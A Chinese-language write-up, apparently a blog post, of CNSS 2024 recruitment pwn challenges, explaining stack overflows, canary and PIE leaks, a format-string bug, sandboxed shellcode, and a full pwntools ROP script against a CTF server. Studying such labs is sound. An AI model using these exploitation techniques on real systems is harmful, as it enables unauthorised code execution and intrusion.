






##### ***前排提示：1.一些题目没exp<br>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;2.由于题目不是一次上完的，所以顺序上可能不完全与当时一致<br>&emsp;&emsp;&emsp;&emsp;&emsp;3.附件在GitHub仓库里有***
### 💓 引导之始(🍼Baby)
```md
⚠ 题目描述
即使引导早已破碎，也请您当上PWN高手。

nc 152.136.11.155 10030

💡 Hint
一头雾水？你可能需要阅读群文件->Bin Guideline
需要一点点命令行操作的知识
nc是什么？装个Linux吧
💻 题目附件
点击下载

🚩 Flag格式
cnss{meaningful_sentence}

🔨 暴打出题人
@Orchid
```
##### &emsp;&emsp;&emsp;你室的pwn每年都有的nc就送题
### 🫨 打地鼠(🍼Baby)
```
⚠ 题目描述
打不到我，打不到我喵(/≧▽≦)/

nc 152.136.11.155 10031

💡 Hint
你不会真打算自己打吧
你可能需要Pwntool
💻 题目附件
点击下载

🚩 Flag格式
cnss{meaningful_sentence}

🔨 暴打出题人
@Orchid
```
##### &emsp;&emsp;&emsp;依然是你室每年都有的 IO 题，这题比上一年的 ***CNSS娘中之人*** 简单一些，这个题打就完了，上一年的题还需要做分类和模式匹配。<br>&emsp;&emsp;&emsp;个人观察来看，很多人第三题做了也没有做这个第二题，实际上这种 IO 题完全不需要 pwn 知识，只需要会用 pwntools 里的 IO 工具即可。究其原因，第一IDA反编译把大🔥给吓坏了，逻辑实现还是比较长的（虽然不一定需要去看），其次调 IO 比较麻烦，对于收发字符需要有比较精确的控制 ，其实pwn就是这样繁琐，差错一个字节甚至一个位都不行，IO 题只是一切的开始，喜欢的小伙伴千万不要放弃。<br>&emsp;&emsp;&emsp;一点和本题相关的，反编译得知玩家输出的地鼠代号是用 ```getchar()``` 接收的，而且只有一个 ```getchar()```，所以在发送的时候不要使用 ```.sendline()```，否则多出来的 ```'\n'``` 会在下一次打地鼠时被接收。如果打过算法类竞赛，肯定对此深有体会。
### 🥺 not enough(🐔Easy)
```
⚠ 题目描述
快把shell给我！

nc 152.136.11.155 10032

💡 Hint
💻 题目附件
点击下载

🚩 Flag格式
cnss{meaningful_sentence}

🔨 暴打出题人
@Orchid
```
##### &emsp;&emsp;&emsp;这道题剥去了符号表，但实际上也没太大影响，核心代码只有一个```main()```和一个手写的改进版```read()```，这个改进版```read()```作用就是输入```'\n'```时终止输入，并把其改为```'\0'```，以截断字符串，和```scanf("%s")```差不多，但是限制输入量。这个改版```read()```很常见并且一般漏洞点不会放在这里面。<br>&emsp;&emsp;&emsp;查看12行，发现字符串可以越界读写，于是可以溢出到```v4```，将其修改为```0x114514```，然后就可以轻松 ```getshell()```
### 😕 We're safe... for now... or not?(🐔Easy)
```
⚠ 题目描述
服务器出大锅啦，@XeAm正在紧急抢修系统，好不容易修好了。
这时，一个刻板印象的黑客大脸出现了，怎么回事？

明明程序main函数里面看起来没有异常，为什么出现了HACKED字样？

请将你的想法整理成PDF或markdown格式，发送到wwworchid39@gmail.com，我将根据你的答案给出flag

如果12小时内未回复请QQ联系。

💡 Hint
这是一个ELF程序，也就是说你需要Linux下运行
chmod +x pwn
动态调试会很管用
程序的callee是如何返回caller的？
💻 题目附件
点击下载

🚩 Flag格式
cnss{meaningful_sentence}

🔨 暴打出题人
@Orchid
```
##### &emsp;&emsp;&emsp;很简单，复制字符串到目标栈地址上，由于没有检查长度和canary，导致了 ***previous rbp*** 和 ***返回地址的最低一位*** 被覆盖，而被覆盖后的地址指向了一个后门函数。
### 😗 I’m the mole(🐔Easy)
```
⚠ 题目描述
做完😕 We're safe... for now... or not?后，你终于知道漏洞在哪里了，此时你动了点小心思...

nc 152.136.11.155 10035

💡 Hint
结合之前学到的工具来做！
💻 题目附件
点击下载

🚩 Flag格式
cnss{meaningful_sentence}

🔨 暴打出题人
@Orchid
```
##### &emsp;&emsp;&emsp;也是保留项目 ***ret2text***，运用从上一题学到的栈溢出技术，将返回地址修改为后门函数即可 ```getshell``` 。<br>&emsp;&emsp;&emsp;值得注意的一点是，众所周知，64位的 ```system()``` 要求栈地址16位对齐，而不是平常的8位（具体原因请移步nydn大佬的博客https://nyyyddddn.github.io/2023/09/26/exp%E6%9C%AC%E5%9C%B0%E4%B8%8D%E9%80%9A%E8%BF%9C%E7%A8%8B%E9%80%9A%E7%9A%84%E9%97%AE%E9%A2%98/ ），涉及其中一个寄存器的问题。<br>&emsp;&emsp;&emsp;招新pwn题所有涉及 ***ret2text*** 和 ```system()```的，似乎本地远程都有这个栈平衡的问题，对于此题来说，最终的 ***ROP*** 应该是下面这样的。
```python
io.send(b'a'*?????? + p64(ret) + p64(backdoor))
```
##### &emsp;&emsp;&emsp;其他的题还有其他的方法，之后会讲。
### ☎️ Call Me……(🐔Easy)
```
⚠ 题目描述
……Call Me……

不是，这电话也打不通啊？

🔗 题目地址
nc 152.136.11.155 10037

📃 题目附件
点我下载

💡 Hint
Canary
Pie
🚩 Flag格式
CNSS{meaningful_sentence}

🔨 暴打出题人
@Timlzh
```
##### &emsp;&emsp;&emsp;可以感觉到Tim出的题很温油，后面的一道 ***heap*** 也是。<br>&emsp;&emsp;&emsp;从这题开始要接触正儿八经的保护措施了，这题主要是Canary和Pie。<br>&emsp;&emsp;&emsp;Canary（金丝雀）是栈溢出哨兵，如果开启了它，栈帧的 ```last rbp/ebp``` 低一位字长的位置就会填写一字长的随机量，然后程序就会在需要栈溢出检查的函数返回之前检查这个随机量，如果发现这个量被修改，当前函数不返回，执行错误处理（然后退出）。<br>&emsp;&emsp;&emsp;注意Canary的最低位一定为```'\x00'```，起到截断输出的效果（对```write()```没用），并且Canary的值是全局变量，在一个程序的生命周期中不变。<br>&emsp;&emsp;&emsp;然后PIE，和ASLR一样是地址随机化的保护技术。区别在于ASLR是操作系统实现的，一般关不掉，而且只随机堆栈和动态链接的部分；PIE是编译器实现的 ```gcc -no-pie``` 可以关掉PIE，可以将```.text```、```.bss```、```.data``` 等地址也随机化，让你打ROP更难受（不是）。最后，无论怎么随机化，都是以页为单位的，也就是16进制的后三位不会变化，地址之间的偏移也不会变化。
##### &emsp;&emsp;&emsp;这个题在输入正好11位的电话号码之前，会一直循环打印输入的字符串，考虑借此leak pie 和 canary。
```python
# leak canary
payload1 = b'a'*(???? + 1) # 溢出到canary最低位的\x00，便于输出时带出canary
# leak pie
payload2 = b'a'*(!!!!) # 正好完全覆盖last_rbp即可
# ret2backdoor
payload3 = b'a'*($$$$) + p64(canary) + p64(fake_rbp) + p64(backdoor + pie_base)
```
##### &emsp;&emsp;&emsp;然后还是```system()``` 栈平衡的问题，可以向上面一样，在 ROP 中加入 ```p64(ret + pie_base)```，也可以返回到```backdoor()``` 中实际调用 ```system()``` 的位置，由于少了最开头的压栈操作，从此处开始调用确实是16位对齐的。
```c
public bug
bug proc near
; __unwind {
endbr64
push    rbp
mov     rbp, rsp
lea     rax, command    ; "/bin/sh"  <----------直接ret到这个位置
mov     rdi, rax        ; command
call    _system
mov     edi, 0          ; status
call    _exit
; } // starts at 128D
bug endp
```
### 🐦‍⬛ happy sugar life(🤖Mid)
```
⚠ 题目描述
潮水褪去，在阳光下剥落出的白色晶胞
尝之，口感咸鲜回甘

据传是对付羽兽的宝物
吸食一粒即会毙命

幽暗森林里的歌声回响
祂是光明、也是救赎
亦不知将被尖锐的血色吞没

喜食糖物，于是祂飞向了海边……

💡 Hint
💻 题目附件
点击下载

🚩 Flag格式
cnss{meaningful_sentence}

🔨 暴打出题人
@Astesia
```
###### &emsp;&emsp;&emsp;Hint+：Canary == n.金丝雀; 其次Canary可能发音与Candy有部分相近吧（
##### &emsp;&emsp;&emsp;所以这一题还是想办法绕过Canary保护，然后返回到后门函数。实际上这一题比上一题上题上得早一些。<br>&emsp;&emsp;&emsp;
```c
unsigned __int64 sugar_salt()
{
  int i; // [rsp+8h] [rbp-38h]
  int v2; // [rsp+Ch] [rbp-34h]
  char s[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v4; // [rsp+38h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  strcpy(s, "We don't need a canaria. I'll kill you!");
  v2 = strlen(s);
  for ( i = v2; i <= 40; ++i ) // <---------- 漏洞
    s[i] = v2 + 1;
  printf("Satou:%s", s); // <---------- leak canary and stack
  read(0, s, 0x28uLL); 
  printf("Shio:");
  printf(s); // <-------- 格式化字符串漏洞
  return v4 - __readfsqword(0x28u);
}
```
##### &emsp;&emsp;&emsp;漏洞在```for ( i = v2; i <= 40; ++i )```，也是c语言新手常犯的错误，下标是0开始的，所以这里正好 ***offset-by-one*** , 把Canary最低位覆盖，之后又自带一个输出就把Canary泄露了。<br>&emsp;&emsp;&emsp;可以看到第二遍输入没有越界写，但是有格式化字符串漏洞。所以这个格式化字符串漏洞做两件事，一是修复Canary最低位为```'\x00'```，二是改返回地址。<br>&emsp;&emsp;&emsp;然后一件事，由于我们要改栈上的内容，于是需要指向栈某些位置的指针，进而需要泄露栈地址，幸好栈地址也和Canary一起泄露了。<br>&emsp;&emsp;&emsp;大致的payload如下，使用```%hhn```而不是```%n```修改单个字节。
```python
canary = u64(io.recv(8))|0xff - 0xff
last_rbp = u64(io.recv(6).ljust(8, b'\x00')) # 栈地址的一般高两位是空的
rbp = last_rbp - offset # offset 是定值

payload = b'%{argv1_offset}$hhn' + b'%{amount}c' + b'%{argv2_offset}$hhn'
payload += b'a'*???? # 确保接下来的两个指针参数按八位对齐。
payload += p64(rbp - 0x8) + p64(rbp + 0x8)
```
###### &emsp;&emsp;&emsp;然后这个```backdoor()```也是有栈平衡的问题，解决方式和上一题一致。

### 🤔 s代表着...(🤖Mid)
```
⚠ 题目描述
塞克考姆城的神奇旗帜
其真名会随时间而变化

据说只有呼唤出正确的名号
才能被举起挥舞

如坚实的巨树，屹立不倒
如敏捷的幻象，若即若离
如神圣的光芒，指引胜利

筛尔寇德？挥舞旗帜的第一勇士。

💡 Hint
flag文件名并非"./flag"、"./flag.txt"等
注意沙箱中被允许的系统调用
💻 题目附件
点击下载

🚩 Flag格式
cnss{meaningful_sentence}

🔨 暴打出题人
@Astesia
```
###### &emsp;&emsp;&emsp;已经告诉了s代表shellcode。
##### &emsp;&emsp;&emsp;checksec魅力时刻，有rwx段，但就是不提示，只能gdb调试看看。
```sh
$ checksec pwn5
[*] '/home/pwn/worktable/cnss2024/pwn5'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled   <----- 注意开了PIE
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
```bash
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
       0x142857000        0x142858000 rwxp     1000      0 [anon_142857]
    0x555555554000     0x555555555000 r--p     1000      0 /home/pwn/worktable/cnss2024/pwn5
    0x555555555000     0x555555556000 r-xp     1000   1000 /home/pwn/worktable/cnss2024/pwn5
    0x555555556000     0x555555557000 r--p     1000   2000 /home/pwn/worktable/cnss2024/pwn5
    0x555555557000     0x555555558000 r--p     1000   2000 /home/pwn/worktable/cnss2024/pwn5
    0x555555558000     0x555555559000 rw-p     1000   3000 /home/pwn/worktable/cnss2024/pwn5
    0x7ffff7d60000     0x7ffff7d63000 rw-p     3000      0 [anon_7ffff7d60]
```
###### &emsp;&emsp;&emsp;第一个就是。<br>
##### &emsp;&emsp;&emsp;注意到开了sandbox
```sh
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x06 0x00 0x00000000  if (A == read) goto 0012
 0006: 0x15 0x05 0x00 0x00000001  if (A == write) goto 0012
 0007: 0x15 0x04 0x00 0x00000002  if (A == open) goto 0012
 0008: 0x15 0x03 0x00 0x00000003  if (A == close) goto 0012
 0009: 0x15 0x02 0x00 0x00000009  if (A == mmap) goto 0012
 0010: 0x15 0x01 0x00 0x0000004e  if (A == getdents) goto 0012
 0011: 0x15 0x00 0x01 0x0000005a  if (A != chmod) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```
##### &emsp;&emsp;&emsp;由于Hint提示flag名称未知，所以我们需要使用图中```getdents```先获取当前列表的所有文件信息，然后再打一个ORW。<br>&emsp;&emsp;&emsp;注意```K```那一列，是具体的系统调用号，网上都教64位用```getdents64```，但它的调用号这题被ban了，用```getdents```本身也足够了。<br>&emsp;&emsp;&emsp;问了出题人，flag的名称每1s变一次，所以才给了两次shellcode的机会。<br>&emsp;&emsp;&emsp;然后注意一点，第一遍shellcode要有压栈和返回的操作，不然到这就SEGV了，没有第二次shellcode的机会。<br>&emsp;&emsp;&emsp;开辟0x200栈空间，信息直接放在栈上。
```sh
shellcode1 = '''
    push rbp
    mov rbp, rsp
    sub rsp, 0x200
'''
shellcode1 += shellcraft.open("./")
shellcode1 += shellcraft.getdents(3, "rsp", 0x200)
shellcode1 += shellcraft.write(1, "rsp", 0x200)
shellcode1 += '''
        leave
        ret
'''

shellcode2 = {$orw}
```
##### &emsp;&emsp;&emsp;博主写的时候由于用的wsl，不知为何wsl上pwntools的asm()很慢，导致两次shellcode间隔超过1s，flag文件名已经变了，死活过不了，后来用虚拟机直接过😅。
### 😎 头号玩家(🤖Mid)
```
⚠ 题目描述
隐匿在品学楼之中的幽灵，
不可观测，难以言喻

旧时，会有许多人前去寻找他，
或恐惧、或期待

话虽如此，
真正的他，或许早已被人忘却

💡 Hint
💻 题目附件
点击下载

🚩 Flag格式
cnss{meaningful_sentence}

🔨 暴打出题人
@Orchid
```
##### &emsp;&emsp;&emsp;谜语人题目，前置知识是看过头号玩家（至少是电影中的第一关）<br>&emsp;&emsp;&emsp;实现逻辑比较长，这里就不贴了，简单来说就是根据程序的随机输出，做一个类似Yes or No的游戏，初始有30分，50次机会，答对一次加一分，错一次减一分。玩完之后，有一个读入字符串的机会，有多少分就可以读多少字符。<br>&emsp;&emsp;&emsp;本题依然checksec魅力时刻
```sh
root@PainTech:/home/pwn/worktable/cnss2024# checksec pwn6
[*] '/home/pwn/worktable/cnss2024/pwn6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
##### &emsp;&emsp;&emsp;显示```Canary found```，实际上根本没有。一般题目可以在IDA中去找找```__stack_chk_fail```函数，如果有就是有Canary；但本题静态链接，东西多不好找，所以动调看```rbp - 0x8```有没有Canary，发现没有。<br>
##### &emsp;&emsp;&emsp;本题的打法有两种，先说正解，也就是和头号玩家有关系的解法。

##### &emsp;&emsp;&emsp;关键点在于正着开不行要你倒着开。由于没Canary，所以要打一个栈溢出，但问题是如果全部答对，也只有80字节，这个大小只够恰好覆盖到返回地址，根本不够ROPchain
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v3; // edx
  int v4; // ecx
  int v5; // r8d
  int v6; // r9d
  char v8[16]; // [rsp+0h] [rbp-50h] BYREF
  char v9[40]; // [rsp+10h] [rbp-40h] BYREF // <-----目标字符串
  int v10; // [rsp+38h] [rbp-18h]
  int v11; // [rsp+3Ch] [rbp-14h]
  int v12; // [rsp+40h] [rbp-10h]
  int v13; // [rsp+44h] [rbp-Ch]
  int i; // [rsp+48h] [rbp-8h]
  unsigned int v15; // [rsp+4Ch] [rbp-4h] // <------得分和
                                          // 也就是最后输入的字符串的长度
}
```
##### &emsp;&emsp;&emsp;细心的童鞋肯定发现，只有v15是无符号数，其他都是有符号数，恰巧又有对v15做减法的操作（答错题目），所以如果故意答错题目（既倒着开），v15就会向下溢出为一个很大正整数，此时构造ROPchain，打一个 ***ret2syscall*** 完全足够了。<br>
##### &emsp;&emsp;&emsp;然后说另一种解法，也就是哥们独创的解法，还把aic给带偏了🤣。<br>&emsp;&emsp;&emsp;如果不考虑整型向下溢出的话，那么正好溢出到返回地址,于是可以按照栈迁移的思路来打。
```sh
.text:0000000000401B76 loc_401B76:                             ; CODE XREF: main+227↑j
.text:0000000000401B76                 mov     edx, 19h
.text:0000000000401B7B                 lea     rax, aNowShowMeYourP ; "Now, show me your power!\n"
.text:0000000000401B82                 mov     rsi, rax
.text:0000000000401B85                 mov     edi, 1
.text:0000000000401B8A                 call    write
.text:0000000000401B8F                 mov     edx, 14h
.text:0000000000401B94                 lea     rax, aSayTheMagicWor ; "Say the magic word!\n"
.text:0000000000401B9B                 mov     rsi, rax
.text:0000000000401B9E                 mov     edi, 1
.text:0000000000401BA3                 call    write
.text:0000000000401BA8                 mov     edx, [rbp+var_4]
.text:0000000000401BAB                 lea     rax, [rbp+var_40]
.text:0000000000401BAF                 mov     esi, edx
.text:0000000000401BB1                 mov     rdi, rax
.text:0000000000401BB4                 call    myRead
.text:0000000000401BB9                 mov     eax, 0
.text:0000000000401BBE                 leave
.text:0000000000401BBF                 retn
.text:0000000000401BBF ; } // starts at 40192E
.text:0000000000401BBF main            endp
```
##### &emsp;&emsp;&emsp;此处为 ```main()``` 最后的输入字符串的部分，注意到```0x401BA8```开始为```myread()```（可视为一般的```read()```）准备参数，其中```var_4```，```var_40```都是固定值（-4和-40），所以可以将```rbp```迁移到某个```-4```位置为一个较大数的位置，这样可以实现读大量字符串。<br>&emsp;&emsp;&emsp;于是去找一块符合条件的风水宝地
```sh
.data:00000000004A0277                 db    0
.data:00000000004A0278                 db 0FFh
.data:00000000004A0279                 db 0FFh
.data:00000000004A027A                 db 0FFh
.data:00000000004A027B                 db 0FFh
.data:00000000004A027C                 db 0FFh
.data:00000000004A027D                 db 0FFh
.data:00000000004A027E                 db 0FFh
.data:00000000004A027F                 db 0FFh
```
##### &emsp;&emsp;&emsp;随便找一个即可<br>
##### &emsp;&emsp;&emsp;然后是返回地址，理论上可以选```0x4019CE```及以下的任意位置，但是上如果直接跳转到上面```myread()```的位置会SEGV，猜测是栈没布置好，访问到非法内存了，而跳转到```0x4019CE```就没有问题，当然这意味着要再来50组游戏，虽然这次可以随便玩。<br>
```sh
.text:00000000004019C7                 mov     [rbp+var_4], 30
.text:00000000004019CE                 mov     [rbp+var_10], 50
.text:00000000004019D5                 lea     rax, asc_474107 ; "-------------------------"
.text:00000000004019DC                 mov     rdi, rax
.text:00000000004019DF                 call    puts
.text:00000000004019E4                 mov     [rbp+var_8], 0
.text:00000000004019EB                 jmp     loc_401B6A
```
##### &emsp;&emsp;&emsp;由我们控制的```myread()```结束后，程序将```leave ret```，这也是这种恰好只溢出返回地址的题目在栈迁移时关键的一点，既不将返回地址覆盖为```leave ret```，而是想办法要再次利用 ```read()``` ，往```fake_rbp``` 上写一些东西，然后用函数末尾自带的```leave ret```，完成向目标位置的栈迁移。<br>&emsp;&emsp;&emsp;对于这题而言，```leave ret```的流程是将```rsp```骗到我们输入地址```+0x40```的位置，```pop rbp```该位置，然后```ret```上一个字长位置。这意味着需要在输入时设置```0x40 + 0x8```的没啥用数据，然后才是ROPchain。<br>
##### &emsp;&emsp;&emsp;由于不是标解，所以把这种exp放上来，仅供参考
```python
from pwn import *

context.log_level = "debug"
# io = process("./pwn6")
elf = ELF("./pwn6")
io = remote("152.136.11.155", 31514)
syscall = 0x401291
bin_sh = 0x474010
rax_ret = 0x41dd07
rdi_ret = 0x402368
rsi_ret = 0x409560
rdx_rcx_ret = 0x401855
main = 0x4019ce
myread = 0x401B7b
data_2 = 0x4A0698 + 4 # 0x4a069c
ret = 0x401016

for i in range(50):
    io.recvuntil(b'-------------------------\n')
    target = io.recvline()
    print(target)
    print(io.recvuntil(b'?'))
    if target.find(b'Clomp') != -1:
        io.sendline(b'O')
    else:
        io.sendline(b'C')

io.recvuntil(b'word!\n') # 80 0x50
payload = b'a'*0x40 + p64(data_2) + p64(main) # change rbp
io.send(payload)
sleep(0.1)

for i in range(50):
    io.recvuntil(b'-------------------------\n')
    target = io.recvline()
    print(target)
    print(io.recvuntil(b'?'))
    if target.find(b'Clomp') != -1:
        io.sendline(b'O')
    else:
        io.sendline(b'C')

payload = p64(ret)*8 + p64(oxdeadbeef)
payload += p64(rax_ret) + p64(59)
payload += p64(rdi_ret) + p64(bin_sh) + p64(rsi_ret) + p64(0)
payload += p64(rdx_rcx_ret) + p64(0) + p64(0) + p64(syscall)

io.recvuntil(b'word!\n') # 80 0x50
io.sendline(payload)

io.interactive()
```
### 🗒 凝眸回首映芳华
```
⚠ 题目描述
CNSS 娘觉得市面上的笔记软件都不安全，有被泄露的风险，于是自己手搓了一个笔记软件雏形出来~

nc 152.136.11.155 10036

💻 题目附件
点击下载

🚩 Flag格式
cnss{meaningful_sentence}

🔨 暴打出题人
@Timlzh
```
###### &emsp;&emsp;&emsp;以下是出题人的心路历程。


##### &emsp;&emsp;&emsp;看note知堆题，增删改看功能齐活.
```sh
[*] '/home/pwn/worktable/cnss2024/pwn8/pwn'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3ff000)
    SHSTK:      Enabled
    IBT:        Enabled
```
##### &emsp;&emsp;&emsp;GOT表可写、然后没有PIE。没有堆题常见的UAF、堆溢出、offset-by-one等。不过即使具体漏洞还没找到，也依然可以先 ```leak libc``` 。 <br>&emsp;&emsp;&emsp;首先```strings ./libc.so.6 | grep "glibc"``` 可以看到版本为2.35，所以铁有tcache
```python
for i in range(9):
    add(i, 0x80, b'a') # 0 ~ 8
for i in range(8):
    free(i)  # free 0~7

for i in range(7):
    add(i, 0x80, b'') # 0 ~ 8

add(8, 0x8, b'a'*8) # 8
show(8)
```
